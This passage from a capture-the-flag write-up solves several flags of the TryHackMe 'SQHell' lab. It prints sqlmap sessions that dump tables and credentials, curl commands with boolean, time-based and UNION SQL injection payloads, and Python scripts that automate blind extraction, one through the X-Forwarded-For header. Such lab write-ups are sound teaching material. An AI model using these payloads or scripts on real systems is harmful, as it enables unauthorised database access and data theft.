[22:41:46] [INFO] GET parameter 'id' appears to be 'MySQL >= 5.0.12 stacked queries (comment)' injectable 
[22:41:46] [INFO] testing 'MySQL >= 5.0.12 AND time-based blind (query SLEEP)'
[22:41:56] [INFO] GET parameter 'id' appears to be 'MySQL >= 5.0.12 AND time-based blind (query SLEEP)' injectable 
[22:41:56] [INFO] testing 'Generic UNION query (NULL) - 1 to 20 columns'
[22:41:56] [INFO] automatically extending ranges for UNION query injection technique tests as there is at least one other (potential) technique found
[22:41:56] [INFO] 'ORDER BY' technique appears to be usable. This should reduce the time needed to find the right number of query columns. Automatically extending the range for current UNION query injection technique test
[22:41:56] [INFO] target URL appears to have 4 columns in query
[22:41:56] [INFO] GET parameter 'id' is 'Generic UNION query (NULL) - 1 to 20 columns' injectable
GET parameter 'id' is vulnerable. Do you want to keep testing the others (if any)? [y/N] 
sqlmap identified the following injection point(s) with a total of 52 HTTP(s) requests:
---
Parameter: id (GET)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: id=2 AND 7533=7533

    Type: error-based
    Title: MySQL >= 5.6 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (GTID_SUBSET)
    Payload: id=2 AND GTID_SUBSET(CONCAT(0x716a6b7071,(SELECT (ELT(3773=3773,1))),0x716a767071),3773)

    Type: stacked queries
    Title: MySQL >= 5.0.12 stacked queries (comment)
    Payload: id=2;SELECT SLEEP(5)#

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: id=2 AND (SELECT 1146 FROM (SELECT(SLEEP(5)))RxrU)

    Type: UNION query
    Title: Generic UNION query (NULL) - 4 columns
    Payload: id=-3834 UNION ALL SELECT NULL,CONCAT(0x716a6b7071,0x52756b6441764b664548654d68494b726b4477706d7955444c66446a50665864577a784e77435848,0x716a767071),NULL,NULL-- -
---
[22:41:58] [INFO] the back-end DBMS is MySQL
[22:41:58] [WARNING] potential permission problems detected ('command denied')
web server operating system: Linux Ubuntu
web application technology: Nginx 1.18.0
back-end DBMS: MySQL >= 5.6
[22:41:58] [INFO] fetching database names
available databases [2]:
[*] information_schema
[*] sqhell_5
[22:41:59] [INFO] fetched data logged to text files under '/root/.local/share/sqlmap/output/sqhell.thm'
[*] ending @ 22:41:59 /2021-06-10/
```

As before, we've found the database is called sqhell_5, now dump everything:

```text
┌──(root💀kali)-[~/thm/sqhell]
└─# sqlmap -u "http://sqhell.thm/post?id=2" -p "id" --dbms=mysql -D sqhell_5 --dump-all --threads 10
        ___
       __H__
 ___ ___["]_____ ___ ___  {1.5.5#stable}
|_ -| . [(]     | .'| . |
|___|_  [']_|_|_|__,|  _|
      |_|V...       |_|   http://sqlmap.org
[*] starting @ 22:50:52 /2021-06-10/
[22:50:52] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: id (GET)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: id=2 AND 7533=7533

    Type: error-based
    Title: MySQL >= 5.6 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (GTID_SUBSET)
    Payload: id=2 AND GTID_SUBSET(CONCAT(0x716a6b7071,(SELECT (ELT(3773=3773,1))),0x716a767071),3773)

    Type: stacked queries
    Title: MySQL >= 5.0.12 stacked queries (comment)
    Payload: id=2;SELECT SLEEP(5)#

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: id=2 AND (SELECT 1146 FROM (SELECT(SLEEP(5)))RxrU)

    Type: UNION query
    Title: Generic UNION query (NULL) - 4 columns
    Payload: id=-3834 UNION ALL SELECT NULL,CONCAT(0x716a6b7071,0x52756b6441764b664548654d68494b726b4477706d7955444c66446a50665864577a784e77435848,0x716a767071),NULL,NULL-- -
---
[22:50:52] [INFO] testing MySQL
[22:50:52] [INFO] confirming MySQL
[22:50:52] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu
web application technology: Nginx 1.18.0
back-end DBMS: MySQL >= 8.0.0
[22:50:52] [INFO] fetching tables for database: 'sqhell_5'
[22:50:52] [INFO] fetching columns for table 'posts' in database 'sqhell_5'
[22:50:52] [INFO] fetching entries for table 'posts' in database 'sqhell_5'
Database: sqhell_5
Table: posts
[2 entries]
[22:50:52] [INFO] table 'sqhell_5.posts' dumped to CSV file '/root/.local/share/sqlmap/output/sqhell.thm/dump/sqhell_5/posts.csv'
[22:50:52] [INFO] fetching columns for table 'users' in database 'sqhell_5'
[22:50:52] [INFO] fetching entries for table 'users' in database 'sqhell_5'
Database: sqhell_5
Table: users
[1 entry]
+----+----------+----------+
| id | password | username |
+----+----------+----------+
| 1  | password | admin    |
+----+----------+----------+
[22:50:52] [INFO] table 'sqhell_5.users' dumped to CSV file '/root/.local/share/sqlmap/output/sqhell.thm/dump/sqhell_5/users.csv'
[22:50:52] [INFO] fetching columns for table 'flag' in database 'sqhell_5'
[22:50:53] [INFO] fetching entries for table 'flag' in database 'sqhell_5'
Database: sqhell_5
Table: flag
[1 entry]
+----+---------------------------------------------+
| id | flag                                        |
+----+---------------------------------------------+
| 1  | THM{FLAG5:<HIDDEN>}                         |
+----+---------------------------------------------+
[22:50:53] [INFO] table 'sqhell_5.flag' dumped to CSV file '/root/.local/share/sqlmap/output/sqhell.thm/dump/sqhell_5/flag.csv'
[22:50:53] [INFO] fetched data logged to text files under '/root/.local/share/sqlmap/output/sqhell.thm'
[*] ending @ 22:50:53 /2021-06-10/
```

We have the flag with only two runs of SQLMap, nice and simple!

Let's move on to the next flag.

## Flag 3 - Blind/Boolean - Browser Method

I found [this](https://www.hackingarticles.in/beginner-guide-sql-injection-boolean-based-part-2/) guide, which is a good in depth look at blind or boolean based attacks.

First looking at the Register page to see what we are dealing with:



If we try admin as the user we see a message saying it's taken:



If we try test as the user we see a message saying it's available:



Looking at the source code for the page we see how this works:

```text
<script>
    $('input[name="username"]').keyup(function(){
        $('.userstatus').html('');
        let username = $(this).val();
        $.getJSON('/register/user-check?username='+ username,function(resp){
            if( resp.available ){
                $('.userstatus').css('color','#80c13d');
                $('.userstatus').html('Username available');
            }else{
                $('.userstatus').css('color','#F00');
                $('.userstatus').html('Username already taken');
            }
        });
    });
</script>
```

The script section calls a function called user-check to see if the name you've entered is available. We can visit this endpoint directly:



Here we see the JSON output showing us the username isn't available. First we test for SQLi:



We still see available is false so we know we can perform SQLi and use the true/false response to confirm our query. Now we know this works our first task is to find the database name. We could continue in the browser, but for speed I'll switch to curl.

## Flag 3 - Blind/Boolean - Curl Method

Let's test how many characters are in the database name:

```text
┌──(root💀kali)-[~/thm/sqhell]
└─# curl "http://sqhell.thm/register/user-check?username=admin' AND (length(database())) = 1 --+"
{"available":true}
```

This tells us the database name length isn't 1 character long. Next we try two characters:

```text
┌──(root💀kali)-[~/thm/sqhell]
└─# curl "http://sqhell.thm/register/user-check?username=admin' AND (length(database())) = 2 --+"
{"available":true}
```

Same answer for two characters, so we continue adding one and testing until we get a false:

```text
┌──(root💀kali)-[~/thm/sqhell]
└─# curl "http://sqhell.thm/register/user-check?username=admin' AND (length(database())) = 8 --+"
{"available":false}   
```

This tells us the length of the name of the database is eight characters. Now we want to find what those eight characters are, we can cheat a little as we can guess it's in the same format as the previous flags. So with the knowledge that it is probably sqhell_3 let's test the first character. To do this we need to know the ASCII code for lower case s, which is 115 known by looking at [this](http://www.asciitable.com/) handy table.

Let's see if the first character is equal to s:

```text
┌──(root💀kali)-[~/thm/sqhell]
└─# curl "http://sqhell.thm/register/user-check?username=admin' AND (ascii(substr((select database()),1,1))) = 115 --+"
{"available":false}
```

False tells us the letter isn't available, or in other words there is a match. So we've confirmed the first character is s, let's check for q:

```text
┌──(root💀kali)-[~/thm/sqhell]
└─# curl "http://sqhell.thm/register/user-check?username=admin' AND (ascii(substr((select database()),2,1))) = 113 --+"
{"available":false}
```

Note we are checking the second character and seeing if it is equal to 113. Again the false result means it's a match. Looking good lets do the rest:

```text
┌──(root💀kali)-[~/thm/sqhell]
└─# curl "http://sqhell.thm/register/user-check?username=admin' AND (ascii(substr((select database()),3,1))) = 104 --+"
{"available":false}

┌──(root💀kali)-[~/thm/sqhell]
└─# curl "http://sqhell.thm/register/user-check?username=admin' AND (ascii(substr((select database()),4,1))) = 101 --+"
{"available":false}

┌──(root💀kali)-[~/thm/sqhell]
└─# curl "http://sqhell.thm/register/user-check?username=admin' AND (ascii(substr((select database()),5,1))) = 108 --+"
{"available":false}

┌──(root💀kali)-[~/thm/sqhell]
└─# curl "http://sqhell.thm/register/user-check?username=admin' AND (ascii(substr((select database()),6,1))) = 108 --+"
{"available":false}

┌──(root💀kali)-[~/thm/sqhell]
└─# curl "http://sqhell.thm/register/user-check?username=admin' AND (ascii(substr((select database()),7,1))) = 95 --+"
{"available":false}

┌──(root💀kali)-[~/thm/sqhell]
└─# curl "http://sqhell.thm/register/user-check?username=admin' AND (ascii(substr((select database()),8,1))) = 51 --+"
{"available":false}
```

We've confirmed the database is called sqhell_3. Next we would use the same technique to get the table names in the database, of course that would be a long a laborious process. If you search online for boolean or blind SQLi scripts you'll find plenty of examples. These just automate what we did above, to speed this up I've written one for this flag:

```text
import requests
import string

server = "sqhell.thm" # IP OR SERVERNAME IF IN HOST FILE
flag = ""
loop = 1

while chr(125) not in flag:
    for a in range(48,126):
        req = requests.get("http://" + server + f"/register/user-check?username=admin' AND (ASCII(SUBSTR((SELECT flag FROM sqhell_3.flag),{loop},1))) = '{a}'; --+")
        if 'false' in req.text:
             flag += chr(a)
             loop += 1
             print("Finding Flag: ", flag, end="\r")
             break
print("Flag found: ", flag)
```

This is just a loop searching each character in the flag table to match it against an ascii code, just like we did manually before. Copy and paste the above code in to a file and run it with python3 to get the following output:

```text
┌──(root💀kali)-[~/thm/sqhell]
└─# python3 flag3.py
Flag found:  THM{FLAG3:<HIDDEN>}
```

It takes a little while, but you get the idea!

## Flag 3 - Blind/Boolean - SQLMap Method

Lastly for this flag let's use SQLMap. The other methods are for scenarios where we can't use SQLMap, if we can then there's no reason to spend all that time on it. I can get the flag in one minute and three seconds using one command!

Let's do it:

```text
┌──(root💀kali)-[~/thm/sqhell]
└─# sqlmap -u http://sqhell.thm/register/user-check?username=admin --dbms=MySQL --dump
        ___
       __H__
 ___ ___[,]_____ ___ ___  {1.5.5#stable}
|_ -| . [.]     | .'| . |
|___|_  [(]_|_|_|__,|  _|
      |_|V...       |_|   http://sqlmap.org
[*] starting @ 21:48:46 /2021-06-16/

[21:48:46] [INFO] testing connection to the target URL
[21:48:46] [INFO] checking if the target is protected by some kind of WAF/IPS
[21:48:46] [INFO] testing if the target URL content is stable
[21:48:46] [INFO] target URL content is stable
[21:48:46] [INFO] testing if GET parameter 'username' is dynamic
[21:48:46] [INFO] GET parameter 'username' appears to be dynamic
[21:48:46] [WARNING] heuristic (basic) test shows that GET parameter 'username' might not be injectable
[21:48:46] [INFO] testing for SQL injection on GET parameter 'username'
[21:48:46] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause'
[21:48:47] [INFO] GET parameter 'username' appears to be 'AND boolean-based blind - WHERE or HAVING clause' injectable 
[21:48:47] [INFO] testing 'Generic inline queries'
[21:48:47] [INFO] testing 'MySQL >= 5.1 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (EXTRACTVALUE)'
[21:48:47] [INFO] testing 'MySQL >= 5.0.12 AND time-based blind (query SLEEP)'
[21:48:47] [WARNING] time-based comparison requires larger statistical model, please wait.................... (done)
[21:48:58] [INFO] GET parameter 'username' appears to be 'MySQL >= 5.0.12 AND time-based blind (query SLEEP)' injectable 
for the remaining tests, do you want to include all tests for 'MySQL' extending provided level (1) and risk (1) values? [Y/n] 
[21:48:59] [INFO] testing 'Generic UNION query (NULL) - 1 to 20 columns'
[21:48:59] [INFO] automatically extending ranges for UNION query injection technique tests as there is at least one other (potential) technique found
[21:48:59] [INFO] 'ORDER BY' technique appears to be usable. This should reduce the time needed to find the right number of query columns. Automatically extending the range for current UNION query injection technique test
[21:49:00] [INFO] target URL appears to have 3 columns in query
do you want to (re)try to find proper UNION column types with fuzzy test? [y/N] 
injection not exploitable with NULL values. Do you want to try with a random integer value for option '--union-char'? [Y/n] 
[21:49:03] [INFO] target URL appears to be UNION injectable with 3 columns
injection not exploitable with NULL values. Do you want to try with a random integer value for option '--union-char'? [Y/n] 
[21:49:06] [INFO] checking if the injection point on GET parameter 'username' is a false positive
GET parameter 'username' is vulnerable. Do you want to keep testing the others (if any)? [y/N] 
sqlmap identified the following injection point(s) with a total of 111 HTTP(s) requests:
---
Parameter: username (GET)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: username=admin' AND 1008=1008 AND 'oujI'='oujI

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: username=admin' AND (SELECT 2948 FROM (SELECT(SLEEP(5)))RtjO) AND 'oVRc'='oVRc
---
[21:49:08] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu
web application technology: Nginx 1.18.0
back-end DBMS: MySQL >= 5.0.12
[21:49:08] [WARNING] missing database parameter. sqlmap is going to use the current database to enumerate table(s) entries
[21:49:08] [INFO] fetching current database
[21:49:08] [WARNING] running in a single-thread mode. Please consider usage of option '--threads' for faster data retrieval
[21:49:08] [INFO] retrieved: sqhell_3
[21:49:11] [INFO] fetching tables for database: 'sqhell_3'
[21:49:11] [INFO] fetching number of tables for database 'sqhell_3'
[21:49:11] [INFO] retrieved: 2
[21:49:11] [INFO] retrieved: flag
[21:49:12] [INFO] retrieved: users
[21:49:14] [INFO] fetching columns for table 'users' in database 'sqhell_3'
[21:49:14] [INFO] retrieved: 3
[21:49:14] [INFO] retrieved: id
[21:49:15] [INFO] retrieved: username
[21:49:17] [INFO] retrieved: password
[21:49:20] [INFO] fetching entries for table 'users' in database 'sqhell_3'
[21:49:20] [INFO] fetching number of entries for table 'users' in database 'sqhell_3'
[21:49:20] [INFO] retrieved: 1
[21:49:20] [INFO] retrieved: 1
[21:49:20] [INFO] retrieved: <HIDDEN>
[21:49:31] [INFO] retrieved: admin
Database: sqhell_3
Table: users
[1 entry]
+----+---------------------------------+----------+
| id | password                        | username |
+----+---------------------------------+----------+
| 1  | <HIDDEN>                        | admin    |
+----+---------------------------------+----------+

[21:49:32] [INFO] table 'sqhell_3.users' dumped to CSV file '/root/.local/share/sqlmap/output/sqhell.thm/dump/sqhell_3/users.csv'
[21:49:32] [INFO] fetching columns for table 'flag' in database 'sqhell_3'
[21:49:32] [INFO] retrieved: 2
[21:49:33] [INFO] retrieved: id
[21:49:33] [INFO] retrieved: flag
[21:49:34] [INFO] fetching entries for table 'flag' in database 'sqhell_3'
[21:49:34] [INFO] fetching number of entries for table 'flag' in database 'sqhell_3'
[21:49:34] [INFO] retrieved: 1
[21:49:35] [INFO] retrieved: THM{FLAG3:<HIDDEN>}
[21:49:49] [INFO] retrieved: 1
Database: sqhell_3
Table: flag
[1 entry]
+----+---------------------------------------------+
| id | flag                                        |
+----+---------------------------------------------+
| 1  | THM{FLAG3:<HIDDEN>}                         |
+----+---------------------------------------------+

[21:49:49] [INFO] table 'sqhell_3.flag' dumped to CSV file '/root/.local/share/sqlmap/output/sqhell.thm/dump/sqhell_3/flag.csv'
[21:49:49] [INFO] fetched data logged to text files under '/root/.local/share/sqlmap/output/sqhell.thm'

[*] ending @ 21:49:49 /2021-06-16/
```

Ok that was too easy. Let's move on to the next flag

## Flag 2 - Blind/Time - Curl Method

Flag 2 has a hint on the room description, it says:

```text
Make sure to read the terms and conditions ;)
```

Let's see what we have:



It mentions logging the visitors IP. A search online found [this](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/X-Forwarded-For) that explains the process:

```text
The X-Forwarded-For (XFF) header is a de-facto standard header for identifying the originating IP address
of a client connecting to a web server through an HTTP proxy or a load balancer.
```

A further search on how to exploit XFF for time based SQLi I found lots of articles. [This](https://www.programmersought.com/article/466012852/) is a good one, with plenty of detail and examples. And also [this](https://resources.infosecinstitute.com/topic/sql-injection-http-headers/) one. First let's try to manually check using curl:

```text
┌──(root💀kali)-[~/thm/sqhell]
└─# curl -H "X-Forwarded-For:1' AND (SELECT sleep(5) FROM flag where (ASCII(SUBSTR(flag,1,1))) = '84'); --+" http://sqhell.thm 
<!DOCTYPE html>
<html lang="en">
<head>
    <title>Home</title>
    <meta charset="utf-8">
    <meta http-equiv="X-UA-Compatible" content="IE=edge">
    <meta name="viewport" content="width=device-width, initial-scale=1">
```

Here I've taken the same curl command we used on flag three, where we are testing using ASCII codes. I'm assuming the first character of the flag is T like all the others. 84 is the ASCII value of T, and I'm sending that via the X-Forwarded-For header. The sleep(5) will visibly pause the output for 5 seconds, so we know there was a match if we get a delay.

This worked for the first letter of the flag, let's do the second one which will be a H:

```text
──(root💀kali)-[~/thm/sqhell]
└─# curl -H "X-Forwarded-For:1' AND (SELECT sleep(5) FROM flag where (ASCII(SUBSTR(flag,2,1))) = '72'); --+" http://sqhell.thm
<!DOCTYPE html>
<html lang="en">
<head>
    <title>Home</title>
```

We test 72 which is the ASCII value of H and again get a five second delay. This tells us we have a match, and like before we can continue on this path to manually work out the flag. Of course that would be incredibly time consuming, so let's write a script to automate it:

```text
import requests
import time
import string

server = "sqhell.thm" # IP OR SERVERNAME IF IN HOST FILE
flag = ""
loop = 1

while chr(125) not in flag:
    for a in range(48,126):
        start = time.time()
        r = requests.get(url="http://" + server, headers={'X-Forwarded-For':f"1' AND (SELECT sleep(2) FROM flag where (ASCII(SUBSTR(flag,{loop},1))) = '{a}'); --+"})
        end = time.time()
        if end-start >= 2:
            flag += chr(a)
            loop += 1
            print("Finding Flag: ", flag, end="\r")
            break
print("Flag found: ", flag)
```

Just like the last script this is a simple loop, repeating the same time based check using the XFF header as we did with curl:

```text
┌──(root💀kali)-[~/thm/sqhell]
└─# python3 flag2.py
Flag found:  THM{FLAG2:<HIDDEN>}
```

It's not the fastest but it will get you the flag eventually!

## Flag 2 - Blind/Time - SQLMap Method

That was fun writing our own scripts, but realistically we'd probably just use SQLMap if we have it available. With knowledge from before about trying X-Forwarded-For as a method to exploit the website, let's do the same initial test with SQLMap to check:

```text
┌──(root💀kali)-[~/thm/sqhell]
└─# sqlmap  -u http://sqhell.thm --headers="X-forwarded-for:1*" --dbms mysql
        ___
       __H__
 ___ ___[,]_____ ___ ___  {1.5.5#stable}
|_ -| . [.]     | .'| . |
|___|_  [(]_|_|_|__,|  _|
      |_|V...       |_|   http://sqlmap.org
[*] starting @ 22:40:59 /2021-06-20/
custom injection marker ('*') found in option '--headers/--user-agent/--referer/--cookie'. Do you want to process it? [Y/n/q] 
[22:41:10] [INFO] testing connection to the target URL
[22:41:11] [INFO] testing if the target URL content is stable
[22:41:11] [INFO] target URL content is stable
[22:41:11] [INFO] testing if (custom) HEADER parameter 'X-forwarded-for #1*' is dynamic
[22:41:11] [WARNING] (custom) HEADER parameter 'X-forwarded-for #1*' does not appear to be dynamic
[22:41:11] [WARNING] heuristic (basic) test shows that (custom) HEADER parameter 'X-forwarded-for #1*' might not be injectable
[22:41:11] [INFO] testing for SQL injection on (custom) HEADER parameter 'X-forwarded-for #1*'
[22:41:11] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause'
[22:41:12] [INFO] testing 'Boolean-based blind - Parameter replace (original value)'
[22:41:12] [INFO] testing 'Generic inline queries'
[22:41:12] [INFO] testing 'MySQL >= 5.1 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (EXTRACTVALUE)'
[22:41:12] [INFO] testing 'MySQL >= 5.0.12 AND time-based blind (query SLEEP)'
[22:41:12] [WARNING] time-based comparison requires larger statistical model, please wait............... (done)
[22:41:23] [INFO] (custom) HEADER parameter 'X-forwarded-for #1*' appears to be 'MySQL >= 5.0.12 AND time-based blind (query SLEEP)' injectable 
for the remaining tests, do you want to include all tests for 'MySQL' extending provided level (1) and risk (1) values? [Y/n] 
[22:41:33] [INFO] testing 'Generic UNION query (NULL) - 1 to 20 columns'
[22:41:33] [INFO] automatically extending ranges for UNION query injection technique tests as there is at least one other (potential) technique found
[22:41:34] [INFO] checking if the injection point on (custom) HEADER parameter 'X-forwarded-for #1*' is a false positive
(custom) HEADER parameter 'X-forwarded-for #1*' is vulnerable. Do you want to keep testing the others (if any)? [y/N] 
sqlmap identified the following injection point(s) with a total of 62 HTTP(s) requests:
---
Parameter: X-forwarded-for #1* ((custom) HEADER)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: 1' AND (SELECT 2608 FROM (SELECT(SLEEP(5)))OFyU) AND 'UzdB'='UzdB
---
[22:41:53] [INFO] the back-end DBMS is MySQL
[22:41:53] [WARNING] it is very important to not stress the network connection during usage of time-based payloads to prevent potential disruptions 
web server operating system: Linux Ubuntu
web application technology: Nginx 1.18.0
back-end DBMS: MySQL >= 5.0.12
[22:41:53] [INFO] fetched data logged to text files under '/root/.local/share/sqlmap/output/sqhell.thm'

[*] ending @ 22:41:53 /2021-06-20/
```

In less than a minute we get the above lengthy response from SQLMap, the key part being:

```text
[22:41:34] [INFO] checking if the injection point on (custom) HEADER parameter 'X-forwarded-for #1*' is a false positive
(custom) HEADER parameter 'X-forwarded-for #1*' is vulnerable.
```

Now we know it's vulnerable we can run SQLMap again and get it to dump the database:

```text
┌──(root💀kali)-[~/thm/sqhell]
└─# sqlmap --dbms mysql --headers="X-forwarded-for:1*" -u http://sqhell.thm --dump
        ___
       __H__
 ___ ___[,]_____ ___ ___  {1.5.5#stable}
|_ -| . [.]     | .'| . |
|___|_  [(]_|_|_|__,|  _|
      |_|V...       |_|   http://sqlmap.org
[*] starting @ 22:42:34 /2021-06-20/
custom injection marker ('*') found in option '--headers/--user-agent/--referer/--cookie'. Do you want to process it? [Y/n/q] 
[22:42:35] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: X-forwarded-for #1* ((custom) HEADER)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: 1' AND (SELECT 2608 FROM (SELECT(SLEEP(5)))OFyU) AND 'UzdB'='UzdB
---
[22:42:35] [INFO] testing MySQL
[22:42:43] [INFO] confirming MySQLize value(s) for DBMS delay responses (option '--time-sec')? [Y/n] 
[22:42:43] [WARNING] it is very important to not stress the network connection during usage of time-based payloads to prevent potential disruptions 
[22:42:53] [INFO] adjusting time delay to 1 second due to good response times
[22:42:53] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu
web application technology: Nginx 1.18.0
back-end DBMS: MySQL >= 8.0.0
[22:42:53] [WARNING] missing database parameter. sqlmap is going to use the current database to enumerate table(s) entries
<SNIP>
[22:44:35] [INFO] table 'sqhell_1.hits' dumped to CSV file '/root/.local/share/sqlmap/output/sqhell.thm/dump/sqhell_1/hits.csv'
[22:44:35] [INFO] fetching columns for table 'flag' in database 'sqhell_1'
[22:44:35] [INFO] retrieved: 2
[22:44:37] [INFO] retrieved: flag
[22:44:51] [INFO] retrieved: id
[22:44:58] [INFO] fetching entries for table 'flag' in database 'sqhell_1'
[22:44:58] [INFO] fetching number of entries for table 'flag' in database 'sqhell_1'
[22:44:58] [INFO] retrieved: 1
[22:44:59] [WARNING] (case) time-based comparison requires reset of statistical model, please wait.............................. (done)
THM{FLAG2:<HIDDEN>}
[22:47:26] [INFO] retrieved: 1
Database: sqhell_1
Table: flag
[1 entry]
+----+---------------------------------------------+
| id | flag                                        |
+----+---------------------------------------------+
| 1  | THM{FLAG2:<HIDDEN>}                         |
+----+---------------------------------------------+

[22:47:29] [INFO] table 'sqhell_1.flag' dumped to CSV file '/root/.local/share/sqlmap/output/sqhell.thm/dump/sqhell_1/flag.csv'
[22:47:29] [INFO] fetched data logged to text files under '/root/.local/share/sqlmap/output/sqhell.thm'

[*] ending @ 22:47:29 /2021-06-20/
```

Just like before, using SQLMap to dump the data makes it really easy.

## Flag 4 - Out-of-band - Browser Method

I've left flag four till last as it's the hardest to understand. We have another hint, this time is says:

```text
Well, dreams, they feel real while we're in them right?
```

A quick search of that reveals it's a quote from the movie Inception:

```text
Cobb: Well, dreams, they feel real while we're in them right? Its only when we wake up then we realize that something was actually strange.
Inception - Movie Quotes - Rotten Tomatoes
```

I didn't know where to start with this one, but searching for "SQLi inception" found [this](https://www.contextis.com/en/blog/sql-inception-how-to-select-yourself) article. And the basic idea is we are looking at a UNION query inside a UNION query.

So first let's look at the last page which we haven't visited yet:



We see her just like on the posts page there is a parameter. Let's test to see if we can inject like before:


Adding AND 1=1 results in a true statement which proves we can inject here. Now we need to determine the number of columns in the table just like we did for flag 5. We do this the same way using the ORDER BY statement.

So just like before we start with ORDER BY 1, then ORDER BY 2, and so on until we get to ORDER BY 4 where we see an error:



Now we know how many columns we have we can use a UNION statement to test which ones are visible:

```text
http://sqhell.thm/user?id=1337 union select 1,2,3
```



Here we've used a false ID, which would result in an error but instead we've used the UNION statement to retrieve the column numbers. Now we know column one and two are useable we can retrieve the user and database:

```text
http://sqhell.thm/user?id=1337 union select database(),user(),null
```



Next we want to see the tables in the database and can use the same query as before:

```text
http://sqhell.thm/user?id=1337 union select 1,group_concat(table_name),3 from information_schema.tables where table_schema=database()
```

However this time when we ask for all tables using group_concat we only see the one user table:



We know a different database contains the posts table, but we find the expected flag table can't be queried here. It's at this point that we need to go back to the hint about running a query inside a query. And we again need to determine the number of columns:

```text
http://sqhell.thm/user?id=1337 union select "1 order by 1-- -",2,3 from information_schema.tables where table_schema=database()
```



Here I've just added an ORDER BY query to the end of the UNION SELECT 1, and enclosed it in quotes so it gets evaluated. As before we keep adding columns until we something changes:

```text
